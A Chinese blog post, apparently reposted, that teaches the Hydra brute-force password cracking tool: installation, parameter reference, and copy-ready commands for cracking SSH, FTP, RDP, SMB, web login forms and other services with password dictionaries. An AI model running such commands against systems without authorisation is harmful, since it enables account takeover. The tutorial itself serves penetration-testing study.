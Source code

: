 ```yaml
---
layout: post
title: "暴力密码破解工具--关键在于字典"
date: 2014-08-06 14:51:00 +0800
comments: false
categories:
- 2014
- 2014~08
- tools
- tools~base
tags:
---
```

http://www.ha97.com/5186.html  

* PS：这款暴力密码破解工具相当强大，支持几乎所有协议的在线密码破解，其密码能否被破解关键在于字典是否足够强大。对于社会工程型渗透来说，有时能够得到事半功倍的效果。

#### 一、简介
hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官 网：http://www.thc.org/thc-hydra  ，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。

#### 二、安装

如果是Debian和Ubuntu发行版，源里自带hydra，直接用apt-get在线安装：
```
sudo apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev hydra
```
Redhat/Fedora发行版的下载源码包编译安装，先安装相关依赖包：
```
yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel
```
hydra下载地址：  http://www.thc.org/releases/hydra-7.3.tar.gz  
```
	# tar zxvf hydra-7.0-src.tar.gz
	# cd hydra-7.0-src
	# ./configure
	# make
	# make install
```
hydra支持GUI图形界面。

#### 三、参数说明
```
hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] server service [OPT]
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
```
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项

#### 四、各种用法实例

简单演示：

破解成功，直接显示结果，上图画红线的地方就是破解出来的密码，也可以通过参数-o输出到文件里。如果字典够强大，结合社工，密码不用很久就出来。

```
	1、破解ssh：
	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
	hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh

	2、破解ftp：
	hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
	hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

	3、get方式提交，破解web登录：
	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
	hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

	4、post方式提交，破解web登录：
	hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"


	hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

	（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，
	-f 当破解了一个密码就停止， 10.36.16.18目标ip，
	http-post-form表示破解是采用http的post方式提交的表单密码破解,
	<title>中 的内容是表示错误猜解的返回信息提示。）

	5、破解https：
	hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

	6、破解teamspeak：
	hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

	7、破解cisco：
	hydra -P pass.txt 10.36.16.18 cisco
	hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

	8、破解smb：
	hydra -l administrator -P pass.txt 10.36.16.18 smb

	9、破解pop3：
	hydra -l muts -P pass.txt my.pop3.mail pop3

	10、破解rdp：
	hydra ip rdp -l administrator -P pass.txt -V

	11、破解http-proxy：
	hydra -l admin -P pass.txt http-proxy://10.36.16.18

	12、破解imap：
	hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
	hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```

